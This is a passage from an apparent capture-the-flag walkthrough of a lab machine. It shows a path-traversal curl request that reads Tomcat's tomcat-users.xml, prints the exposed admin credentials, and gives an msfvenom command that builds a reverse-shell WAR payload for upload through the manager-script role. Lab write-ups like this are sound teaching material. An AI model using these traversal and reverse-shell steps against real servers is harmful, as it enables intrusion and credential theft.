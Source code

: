 So I try this in the browser and...

<img src="/images/tabby/blank.png" width="1000"/>

Alright...\**breathes in*\* GODDAMMIT! I AM GIVING UP! I just went haywire after that and I don't know why but I decided to take a look at the source html of the blank page. Guess what? I did see some code. But why? Well because apparently xml code does not show anything in a browser. I decided to curl it.

{%highlight text%}
curl http://megahosting.htb/news.php?file=/../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>

<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">



   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
{%endhighlight%}

We can see the sweet sweet creds at the end of file as well as our privileges. After that I am off to find an exploit for a user with our privileges in tomcat. I find an [awesome article](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00) with step by step instructions. 

So the exploit is easy. Since we have the manager-script privilege we can use the tomcat API to upload any file that we want. We will be uploading  malicious .WAR(web application resource) file. So a WAR file to a tomcat server is what php is to a apache server(thats how I understood it anyway). It is a web application but written in java. We will upload the file and when we browse to it we will get a connection back to our netcat listener.

Creating a malicious war file with msfvenom.
{%highlight text%}
msfvenom -p java/shell_reverse_tcp lhost=YourIP lport=1234 -f war -o pwn.war
{%endhighlight%}
